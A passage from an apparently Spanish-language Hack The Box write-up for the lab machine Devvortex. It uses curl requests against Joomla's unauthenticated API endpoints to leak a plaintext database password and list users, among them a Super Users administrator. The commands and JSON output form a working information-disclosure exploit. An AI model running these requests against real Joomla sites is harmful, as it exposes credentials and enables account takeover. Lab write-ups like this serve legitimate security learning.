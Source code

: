 {% embed url="https://vulncheck.com/blog/joomla-for-rce" %}

En este caso, a través de la siguiente petición con `cURL`, nos encontramos con unas credenciales en texto plano expuestas en el EndPoint.

```bash
❯ curl -s 'http://dev.devvortex.htb/api/index.php/v1/config/application?public=true' | jq
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true",
    "next": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20",
    "last": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"
  },
  "data": [
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline_message": "This site is down for maintenance.<br>Please check back again soon.",
        "id": 224
      }
    },
...[snip]...
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224
      }
    }
```

Realizando la siguiente consulta, verificamos los usuarios que que se encuentran públicos. Logramos verificar que existe un usuario administrador `lewis` y un usuario registrado llamado `logan`.

```bash
❯ curl -s -X GET 'http://dev.devvortex.htb/api/index.php/v1/users?public=true' | jq
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/users?public=true"
  },
  "data": [
    {
      "type": "users",
      "id": "649",
      "attributes": {
        "id": 649,
        "name": "lewis",
        "username": "lewis",
        "email": "lewis@devvortex.htb",
        "block": 0,
        "sendEmail": 1,
        "registerDate": "2023-09-25 16:44:24",
        "lastvisitDate": "2023-10-29 16:18:50",
        "lastResetTime": null,
        "resetCount": 0,
        "group_count": 1,
        "group_names": "Super Users"
      }
    },
    {
      "type": "users",
      "id": "650",
```